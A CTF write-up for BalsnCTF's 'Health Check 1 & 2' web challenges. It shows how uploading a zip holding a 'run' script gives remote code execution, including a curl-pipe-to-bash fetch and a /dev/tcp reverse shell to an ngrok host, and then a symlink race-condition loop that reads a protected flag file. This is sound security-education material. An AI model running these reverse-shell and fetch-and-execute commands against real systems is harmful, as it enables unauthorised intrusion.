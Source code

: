 ```yaml
---
layout: writeups
title: Health Check 1 & 2 - BalsnCTF
date: 2022-9-05
category: "Web"
desc: "Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our fastest Health Check API in the world!"
---
```


## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application directory(`/home/healthcheck/app`) we found 2 python files called `apiserver.py` and `background.py` with source code of the app, analyzing the source code of the `apiserver.py` at `@app.get('/{dir_name}')` route is there a opportunity for a `race contition` attack and after that grab the second flag.


## Health Check 1
A first look into web challenge we got a message `{"message":"Hello World"}` who looks like `json` format. Doing more enumeration i didnt find something worth so i try bruteforce some directories. <br>
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

While directory bruteforcing running the `/docs` directory appear with different `content length` <br>
![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

When visit the `/docs` directory we found 3 interestings HTTP routes and they are: `POST /new`,`GET /{dir_name}` and the last one `GET /` <br>
![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>

Lets enumerate these routes... Lets take the first one and open it we will find out a description which says:
<b>"This endpoint is only for admin. do NOT share this link with players!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"</b>
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

When i read `you must place an executable (or a script)` instantly i thing a bash script so i tried.<br>
![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)

I create a zip file with a random name(`tet.zip`) and i put my `run` executable inside with the curl command sending a `GET` requst to my burpcollaborator.(bellow run executable source code) <br>
```bash
#!/bin/bash

curl http://burpcollaborator.net/
```
After a few seconds i get the request from curl command and i knew it i can get a reverse shell just putting the reverse shell into run executable but... <br>
![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)

but when i tried i had a problem.. The problem it was the URL scheme must be "http","https" so i create 2 other files.(source code below)<br>
![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

<br>

The first file was the `shell.sh` where i upload it into a web server so i can reach it from the other file called `run` executable.
```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```

This source code below is the `run` executable where with the `curl` command we get the source code of `shell.sh` and pipeline it with `bash` command and successfully get the reverse shell .
```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png) <br>

We can retrive the flag in the `__pycache__` directory.
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2

Lets move to the next level of the challenge.. Lets take a look into directory with the python files and more specifically at `apiserver.py` and `@app.get('/{dir_name}')`.
![examine](https://user-images.githubusercontent.com/45040001/188760193-9a4b878f-9659-4dd7-864d-e0646ab7f53a.png)

We can figure out a `race contition` vulnerability which according to the author my solution it was unintended. The exploitation part follows below.
```python
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```

![upload zip_for flag](https://user-images.githubusercontent.com/45040001/188760009-9ed5c627-b8f2-4105-b548-11f59ae5bd6a.png)

```bash
# run executable into flag.zip
while :; do ln -s /home/healthcheck/app/flag2 status.json; rm status.json; echo 'lalal' > status.json; rm status.json; done
```


![run_my_script](https://user-images.githubusercontent.com/45040001/188760071-b6c4a1d1-212c-44d4-ab9a-9a9399777a51.png)

![404](https://user-images.githubusercontent.com/45040001/188760084-ea4bb487-ce74-4944-b0ad-b29b171f238c.png)

![lalala](https://user-images.githubusercontent.com/45040001/188760090-36c82282-f3d3-4ede-9edc-6e5ff54fdc61.png)

![flag](https://user-images.githubusercontent.com/45040001/188760093-e824b6d0-d869-4148-8db6-b443521888da.png)



